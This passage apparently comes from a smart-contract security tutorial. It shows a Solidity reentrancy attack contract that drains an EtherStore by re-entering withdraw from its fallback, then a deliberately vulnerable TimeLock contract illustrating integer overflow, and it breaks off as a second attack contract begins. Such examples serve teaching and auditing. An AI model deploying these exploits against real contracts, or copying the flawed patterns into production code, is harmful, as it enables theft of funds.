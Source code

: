 ```solidity
contract Attack {
    EtherStore public etherStore;
    constructor(address _etherStoreAddress) public {
        etherStore = EtherStore(_etherStoreAddress);
    }
    
    fallback() external payable {
        if(address(etherStore).balance >= 1 ether) {
            etherStore.withdraw(1 ether);
        }
    }
    
    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw(1 ether);
    }
    
    
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

### Arithmetic overflow and underflow

```solidity
pragma solidity ^0.6.10;

/*
overflow
underflow
uint = 2**256-1
-3 will be an underflow
*/

contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;
    
    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = now + 1 weeks;
    }
    
    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }
    
    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(now > lockTime[msg.sender], "lock time not expired");
        
        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;
        
        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
```
